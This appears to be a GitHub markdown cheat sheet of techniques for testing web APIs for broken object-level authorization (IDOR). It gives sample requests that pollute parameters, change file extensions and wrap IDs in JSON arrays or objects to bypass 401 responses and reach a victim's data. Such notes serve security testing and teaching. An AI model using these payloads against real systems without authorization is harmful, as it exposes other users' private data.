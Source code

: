 * Never ignore encoded/hashed ID

```bash
for hashed ID ,create multiple accounts and understand the ppattern application users to allot an iD
```

* Google Dorking/public form

```bash
search all the endpoints having ID which the search engine may have already indexed
```

* Bruteforce Hidden HTTP parameters

```bash
use tools like arjun , paramminer 
```

* Bypass object level authorization Add parameter onto the endpoit if not present by defualt

```bash
GET /api_v1/messages ->200
GET /api_v1/messages?user_id=victim_uuid ->200
```

* HTTP Parameter POllution Give mult value for same parameter

```bash
GET /api_v1/messages?user_id=attacker_id&user_id=victim_id
GET /api_v1/messages?user_id=victim_id&user_id=attacker_id
```

* change file type

```bash
GET /user_data/2341        -> 401
GET /user_data/2341.json   -> 200
GET /user_data/2341.xml    -> 200
GET /user_data/2341.config -> 200
GET /user_data/2341.txt    -> 200
```

* json parameter pollution

```bash
{"userid":1234,"userid":2542}
```

* Wrap the ID with an array in the body

```bash
{"userid":123} ->401
{"userid":[123]} ->200
```

* wrap the id with a json object

```bash
{"userid":123} ->401
{"userid":{"userid":123}} ->200
```

